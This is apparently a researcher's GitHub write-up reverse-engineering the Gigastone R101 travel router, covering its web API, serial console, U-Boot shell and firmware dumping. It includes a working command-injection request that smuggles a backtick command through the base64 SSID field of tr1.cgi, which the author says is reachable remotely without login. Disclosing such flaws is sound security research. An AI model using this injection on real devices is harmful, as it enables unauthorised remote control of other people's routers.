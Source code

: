 # RE of Gigastone R101 Mini Wireless Router / Wireless Travel Router

The R101 is a cheap wireless router sold by Gigastone.
Gigastone is a electronics brand based in Taiwan.

[Amazon link1.](https://www.amazon.com/Gigastone-GS-TR1-R-Wireless-Travel-Router/dp/B01DR04V90)
[Amazon link2.](https://www.amazon.com/Gigastone-TR1-Wireless-Extension-Processor/dp/B0BVTYYDQH/)

![41-czovIRFL _AC_SX522_](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/36e0f064-4b5e-4bf8-bdb5-3b70db17efa8)

# Web interface

After logging in with the default credentials, I watched network traffic from dev tools while setting the SSID.
It seems the device uses `tr1.cgi?cgi=2` for configuration.
The device uses base64 to send the SSID.

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/4b1597ec-1484-4e59-98e0-f050da488c68)

This field has command injection, and we can use the new SSID as the commands output.

SSID is set to base64 of string `` `echo command injection` `` (`YGVjaG8gY29tbWFuZCBpbmplY3Rpb25gCg==`)
```
http://<ROUTER_IP>/cgi-bin/tr1.cgi?cgi=2&mode=0&ssid=YGVjaG8gY29tbWFuZCBpbmplY3Rpb25gCg==&ht=0&channel=0&dhcp=50&static=0&ip=0.0.0.0&subnet=0.0.0.0&gw=0.0.0.0&pppmode=0&pppusr=bnVsbA==&ppppwd=bnVsbA==&pwd=
```

This API seems to be hittable from a remote IP, when not logged in (even with default password changed).

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/4346f60e-8f03-4636-a46f-ae87b2d0490c)

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/b886fa58-2fd6-488c-8a4e-b212a7ff1b4d)

# Hardware/Serial

We can find Gigastones filing for R101 in the [FCC ID](https://fccid.io/PLE-TRR1011) database

Looking at internal photos from FCCID, it looks like there's a serial port in the corner opposite the power button.

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/433ee296-e97e-460f-9b0a-e1deccdd58d3)

Soldering to the board and watching for serial confirms this.
I used a "USB to TTL" adapter to get serial from USB.
Using a multimeter in continuity mode showed the leftmost pin was ground.

Watching boot with baud set to 115200
```
U-Boot 1.1.4-ga519b4f0-dirtyOct  9 201317:21:10

AP121 (ar9331) U-boot

DRAM:  16 MB
Flash Manuf Id 0x0, DeviceId0 0x0, DeviceId1 0x0
flash size 4194304, sector count = 64
Flash:  4 MB
Using default environment

In:    serial
Out:   serial
Err:   serial
Net:   ag7240_enet_initialize...
No valid address in Flash. Using fixed address
No valid address in Flash. Using fixed address
: cfg1 0x5 cfg2 0x7114
eth0: 00:03:7f:09:0b:ad
eth0 up
: cfg1 0xf cfg2 0x7214
eth1: 00:03:7f:09:0b:ad
athrs26_reg_init_lan
ATHRS26: resetting s26
ATHRS26: s26 reset done
eth1 up
eth0, eth1
Hit any key to stop autoboot:  0
## Booting image at 9f300000 ...
   Image Name:   Linux Kernel Image
   Created:      2014-02-26   4:14:51 UTC
   Image Type:   MIPS Linux Kernel Image (lzma compressed)
   Data Size:    905965 Bytes = 884.7 kB
   Load Address: 80002000
   Entry Point:  801ea0e0
   Verifying Checksum at 0x9f300040 ...OK
   Uncompressing Kernel Image ... OK

Starting kernel ▒ɩ
                  ▒▒▒▒▒Zk▒*▒3▒  ▒▒▒YW▒▒
```

Watching boot with baud set to 128000
```
`@@▒▒▒▒▒▒▒▒▒`▒▒▒▒▒▒▒▒`▒▒`p▒y▒s`ppdp@^nN▒▒
`@@▒▒▒▒▒▒▒▒▒▒▒▒▒`▒▒▒▒▒▒@▒▒▒▒▒@^nN@▒▒
▒▒▒▒▒▒▒▒@▒▒▒▒▒▒ ...

Booting AR9330(Hornet)...
```

Hitting a key during boot brings us to a UBOOT shell
```
TR1> help
reset   - Perform RESET of the CPU
?       - alias for 'help'
boot    - boot default, i.e., run 'bootcmd'
bootd   - boot default, i.e., run 'bootcmd'
bootm   - boot application image from memory
cp      - memory copy
dhcp    - invoke DHCP client to obtain IP/boot params
erase   - erase FLASH memory
help    - print online help
httpd   - start webserver
md      - memory display
mm      - memory modify (auto-incrementing)
mtest   - simple RAM test
mw      - memory write (fill)
nm      - memory modify (constant address)
ping    - send ICMP ECHO_REQUEST to network host
printenv- print environment variables
progmac - Set ethernet MAC addresses
reset   - Perform RESET of the CPU
run     - run commands in an environment variable
setenv  - set environment variables
tftpboot- boot image via network using TFTP protocol
version - print monitor version
TR1>
TR1> printenv
bootargs=console=ttyS0,115200 root=31:02 rootfstype=squashfs init=/sbin/init mtdparts=ar7240-nor0:256k(u-boot),64k(u-boot-env),2752k(rootfs),896k(uImage),64k(NVRAM),64k(ART)
bootcmd=bootm 0x9f300000
bootdelay=1
baudrate=115200
ethaddr=0x00:0xaa:0xbb:0xcc:0xdd:0xee
ipaddr=192.168.16.254
serverip=192.168.16.10
stdin=serial
stdout=serial
stderr=serial
ethact=eth0
nc=setenv stdin nc;setenv stdout nc;setenv stderr serial
serial=setenv stdin serial;setenv stdout serial;setenv stderr serial
ncip=192.168.16.10
```

From here we can dump memory with `md`, and convert it into raw binary. I personally like to use python, with a quick script like below.
```
#!/bin/python3

import sys

if len(sys.argv) != 2:
    print("GIVE ME FILE NOW")
    sys.exit(1)

with open(sys.argv[1]) as open_file:
    with open("output.bin", "wb") as out_file:
        for line in open_file:
            line = line.strip()

            tokens = line.split(" ")
            byte_str = ''.join(tokens[1:6])
            print(byte_str)

            print(tokens)
            byte_o = bytes.fromhex(byte_str)
            out_file.write(byte_o)
```

From memory address `0x9f300000` to `0x9f3dd320` there seems to be a Linux Kernel Image.
```
output.bin: u-boot legacy uImage, Linux Kernel Image, Linux/MIPS, OS Kernel Image (lzma), 905965 bytes, Wed Feb 26 04:14:51 2014, Load Address: 0x80002000, Entry Point: 0x801EA0E0, Header CRC: 0x0F2D2E50, Data CRC: 0x85246A37
```
